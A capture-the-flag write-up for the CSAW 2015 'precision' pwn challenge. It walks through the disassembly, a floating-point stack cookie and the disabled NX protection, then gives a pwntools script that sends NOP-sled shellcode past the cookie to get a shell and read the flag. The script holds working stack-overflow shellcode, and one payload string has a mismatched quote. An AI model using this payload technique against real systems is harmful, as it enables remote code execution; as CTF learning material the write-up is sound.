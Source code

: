 [](ctf=csaw-quals-2015)
[](type=pwn)
[](tags=stack-cookie,buffer-overflow)

We are given a [file](../precision_a8f6f0590c177948fe06c76a1831e650)


```bash
$ file precision_a8f6f0590c177948fe06c76a1831e650
precision_a8f6f0590c177948fe06c76a1831e650: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
```
Lets disass main
```objdump
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0xa0
   0x08048529 <+12>:	fld    QWORD PTR ds:0x8048690
   0x0804852f <+18>:	fstp   QWORD PTR [esp+0x98]
   0x08048536 <+25>:	mov    eax,ds:0x804a040
   0x0804853b <+30>:	mov    DWORD PTR [esp+0xc],0x0
   0x08048543 <+38>:	mov    DWORD PTR [esp+0x8],0x2
   0x0804854b <+46>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048553 <+54>:	mov    DWORD PTR [esp],eax
   0x08048556 <+57>:	call   0x8048400 <setvbuf@plt>
   0x0804855b <+62>:	lea    eax,[esp+0x18]
   0x0804855f <+66>:	mov    DWORD PTR [esp+0x4],eax
   0x08048563 <+70>:	mov    DWORD PTR [esp],0x8048678
   0x0804856a <+77>:	call   0x80483b0 <printf@plt>
   0x0804856f <+82>:	lea    eax,[esp+0x18]
   0x08048573 <+86>:	mov    DWORD PTR [esp+0x4],eax
   0x08048577 <+90>:	mov    DWORD PTR [esp],0x8048682
   0x0804857e <+97>:	call   0x8048410 <__isoc99_scanf@plt>
   0x08048583 <+102>:	fld    QWORD PTR [esp+0x98]
   0x0804858a <+109>:	fld    QWORD PTR ds:0x8048690
   0x08048590 <+115>:	fucomip st,st(1)
   0x08048592 <+117>:	fstp   st(0)
   0x08048594 <+119>:	jp     0x80485a9 <main+140>
   0x08048596 <+121>:	fld    QWORD PTR [esp+0x98]
   0x0804859d <+128>:	fld    QWORD PTR ds:0x8048690
   0x080485a3 <+134>:	fucomip st,st(1)
   0x080485a5 <+136>:	fstp   st(0)
   0x080485a7 <+138>:	je     0x80485c1 <main+164>
   0x080485a9 <+140>:	mov    DWORD PTR [esp],0x8048685
   0x080485b0 <+147>:	call   0x80483c0 <puts@plt>
   0x080485b5 <+152>:	mov    DWORD PTR [esp],0x1
   0x080485bc <+159>:	call   0x80483e0 <exit@plt>
   0x080485c1 <+164>:	mov    eax,ds:0x804a030
   0x080485c6 <+169>:	lea    edx,[esp+0x18]
   0x080485ca <+173>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ce <+177>:	mov    DWORD PTR [esp],eax
   0x080485d1 <+180>:	call   0x80483b0 <printf@plt>
   0x080485d6 <+185>:	leave  
   0x080485d7 <+186>:	ret    
```
We see some fancy fld,fstp,fucomip etc. What is happening here is, the program is setting a cookie on the stack by itself before input and then verifies it with the same value after input. If value doesn't change it rets else it exits.
```bash
$ ./precision_a8f6f0590c177948fe06c76a1831e650 
Buff: 0xff947f78
AAAA
Got AAAA
```
The address here is the start of the input. Solves our problem of locating the input.
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
NX is disabled. This calls for a shellcode on the stack.
Payload format
> NOPs+shellcode+pad+cookie+pad+ret


Use pattern_create and pattern_offset to figure out the total length. Maintain the cookie value at proper offset and bang!

```python
from pwn import *
#s=process("./precision")
s=remote('54.173.98.115',1259)
a=s.recvline()
addr=p32(int(a.split()[1],16))
print a
payload="\x90'*(128-36)+'\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f"
payload+="\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53"
payload+='\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80'
payload+='\x47\x5a\x31\xa5'[::-1]+'\x40\x50\x15\x55'[::-1]+'A'*(12)
s.send(payload+addr)
s.interactive()
```
gives us shell
```bash
$ id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
$ cat flag
flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}
```

Flag
> flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}
